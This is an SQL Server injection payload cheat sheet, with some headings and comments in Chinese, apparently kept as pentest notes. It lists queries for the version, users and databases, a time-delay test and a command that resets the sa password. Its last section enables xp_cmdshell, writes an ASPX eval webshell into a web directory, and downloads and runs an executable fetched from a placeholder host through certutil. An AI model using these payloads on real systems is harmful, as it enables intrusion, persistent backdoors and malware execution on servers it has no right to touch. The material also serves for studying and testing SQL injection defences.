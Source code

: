 SQL Server Payload
=====================================

- Version 
    - ``SELECT @@version``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT /*comment*/1``
- Current User
    - ``SELECT user_name()``
    - ``SELECT system_user``
    - ``SELECT user``
    - ``SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID``
- List User
    - ``SELECT name FROM master..syslogins``
- Current Database
    - ``SELECT DB_NAME()``
- List Database
    - ``SELECT name FROM master..sysdatabases``
- Command
    - ``EXEC xp_cmdshell 'net user'``
- Ascii
    - ``SELECT char(0x41)``
    - ``SELECT ascii('A')``
    - ``SELECT char(65)+char(66)`` => return ``AB``
- Delay
    - ``WAITFOR DELAY '0:0:3'`` pause for 3 seconds
- Change Password
    - ``ALTER LOGIN [sa] WITH PASSWORD=N'NewPassword'``
- 写入文件
	+ xp_cmdshell
		::
		
			开启xp_cmdshell过程:
			exec sp_configure 'show advanced options', 1;   //开启高级选项
			RECONFIGURE; 									//配置生效
			exec sp_configure'xp_cmdshell', 1; 				//开启xp_cmdshell
			RECONFIGURE; 									//配置生效
			查看xp_cmdshell状态：exec sp_configure
			执行命令：exec master..xp_cmdshell 'whoami';
			写入webshell：exec master..xp_cmdshell 'echo  ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > c:\\WWW\\233.aspx'
			# 下载恶意程序
			exec master.dbo.xp_cmdshell 'cd c:\\www & certutil -urlcache -split -f http://ip/file.exe';
			执行程序
			exec master.dbo.xp_cmdshell 'cd c:\\www & file.exe';


